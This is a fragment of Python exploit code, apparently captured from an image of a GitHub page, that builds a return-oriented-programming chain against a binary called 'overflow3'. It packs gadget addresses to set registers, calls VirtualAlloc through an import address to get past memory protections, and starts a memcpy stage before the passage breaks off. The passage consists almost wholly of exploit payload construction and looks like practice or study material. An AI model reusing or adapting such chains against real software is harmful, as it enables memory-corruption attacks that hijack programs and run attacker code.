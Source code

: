 ```python
payload += struct.pack("<Q", base_addr+0x2410)  # 00000002410
#payload += struct.pack("<Q", 0x7678)  # mov eax, dword ptr [rax]; ret;
#payload += struct.pack("<Q", 0x786D)
"""
0000000786D | 41:89C0                  | mov r8d,eax                          |
00000007870 | E8 3BFFFFFF              | call overflow3.77B0             |
00000007875 | 48:98                    | cdqe                                 |
00000007877 | 48:83C4 30               | add rsp,30                           |
0000000787B | 5B                       | pop rbx                              |
0000000787C | 5E                       | pop rsi                              |
0000000787D | 5F                       | pop rdi                              |
0000000787E | C3                       | ret                                  |
"""

#rop gadget(s) for setting the RCX register value
###################################################
payload += struct.pack("<Q", base_addr+0x276f)  # xor ecx, ecx; mov rax, r9; ret; 
# rcx should now be set to 0
###################################################

#rop gadgets for setting the RDX register value
#####################################################
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x1243)  # mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0x00AC)  # place 1000 on stack --> 0x000000000AC = 0x1000
payload += struct.pack("<Q", base_addr+0x7678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", base_addr+0x6995)  # add edx, eax; mov eax, edx; ret; 
# RDX should now be set to 1002 (ideally 1000 but I got tired of mathing :D )
######################################################

#VirtualAlloc !!!
######################################################
payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
payload += struct.pack("<Q", base_addr+0xD288)  # virtualalloc import address
payload += struct.pack("<Q", base_addr+0x1fb3)  # jmp qword ptr [rax]; 

######################################################


#memcpy
#copies memory from src to dst
#On x64, the parameters for memcpy are passed in these registers:

#rcx: Destination address (dst)
#rdx: Source address (src)
#r8: Number of bytes to copy (n)

#################################################################
#memcpy
#################################################################

#preparation

payload += struct.pack("<Q", base_addr+0x1b5a)  # pop rsi; pop rdi; ret;
payload += b"\x90" * 16 

#get rdx 

payload += struct.pack("<Q", base_addr+0x1f8c)  # pop rax, ret;
#payload += struct.pack("<Q", base_addr+0x0355)  # 0xAC value (remember to add 28 to get to D0)
#payload += struct.pack("<Q", base_addr+0x10000+0x4351)  # 0xFA value 
```